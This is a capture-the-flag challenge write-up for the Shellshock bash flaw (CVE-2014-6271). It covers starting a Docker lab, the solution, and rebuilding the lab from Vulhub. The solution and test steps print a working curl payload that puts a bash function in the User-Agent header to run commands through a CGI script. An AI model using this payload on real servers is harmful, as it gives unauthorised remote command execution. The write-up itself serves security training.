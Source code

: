 # Challenge 8: Shellshock

## How to Start
```bash
docker compose pull
docker compose up -d
```

---

## Description
This challenge demonstrates how to exploit the **Shellshock vulnerability (CVE-2014-6271)** in a CGI script to achieve **Remote Code Execution (RCE)** and retrieve a flag.

---

## Solution
1. Identify the vulnerable `victim.cgi` file by exploring the container via the web application.
2. Execute the following command to read the flag:
   ```bash
   curl -H "User-Agent: () { :;}; echo; echo; /bin/cat /var/www/html/flag.txt" http://localhost:8066/victim.cgi
   ```

**Flag:**
```
flag{pwned_by_shellshock}
```

---

## How to Recreate

### 1. Clone the Vulhub Repository
```bash
git clone https://github.com/vulhub/vulhub
```

### 2. Navigate to the Shellshock CVE Directory
```bash
cd vulhub/bash/CVE-2014-6271
```

### 3. Start the Container
```bash
docker-compose up -d
```

### 4. Add the Flag
Place your flag in the desired directory within the container, for example:
```bash
echo "flag{pwned_by_shellshock}" > /var/www/html/flag.txt
```

### 5. Test the Exploit
Run:
```bash
curl -H "User-Agent: () { :;}; echo; echo; /bin/cat /var/www/html/flag.txt" http://localhost:8066/victim.cgi
```

---

## Final Notes
This challenge highlights the dangers of outdated Bash versions and improperly secured CGI scripts, which can be exploited to execute arbitrary commands on the server.
